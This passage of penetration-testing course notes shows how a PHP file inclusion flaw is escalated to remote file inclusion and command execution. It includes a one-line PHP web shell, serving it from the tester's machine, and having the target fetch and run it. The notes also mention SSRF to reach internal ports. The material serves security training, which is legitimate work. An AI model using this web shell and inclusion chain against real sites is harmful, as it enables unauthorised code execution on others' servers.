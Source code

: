 For example, any remote URL inclusion in PHP would require the "`allow_url_include`" setting to be enabled:
```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. 

So, a more reliable way to determine **whether an LFI vulnerability is also vulnerable to RFI** is to **try and include a URL**, and see if we can get its content. **At first, we should always start by trying to include a local URL** to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included:
![[Pasted image 20250207212558.png]]
As we can see, the `index.php` page got included in the vulnerable section (i.e. _History Description_), so the page is indeed vulnerable to RFI, as we are able to include URLs. 

Furthermore, the `index.php` page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.

We also see that we were able to specify **port 80** and get the web app on that port. If the back-end server hosted any other local web apps (e.g. **port 8080**), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.

>[!Note]
It may not be ideal to include the vulnerable page itself (i.e. ``index.php``), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.
### RCE with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web app, which is PHP in this case. 

We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the **RFI** vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web app has a firewall preventing outgoing connections. Furthermore, we may host the script through an ``FTP`` service or an ``SMB`` service, as we will see next.
#### HTTP
Now, we can start a server on our machine:
```bash
$ sudo python3 -m http.server <LISTENING_PORT>

Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Then, we can include our local shell through **RFI**, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:
![[Pasted image 20250207212944.png]]
As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:
```bash
$ sudo python3 -m http.server <LISTENING_PORT>

Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```
#### FTP
As mentioned earlier, we may also host our script through the ``FTP`` protocol. We can start a basic ``FTP`` server with Python's "`pyftpdlib`", as follows: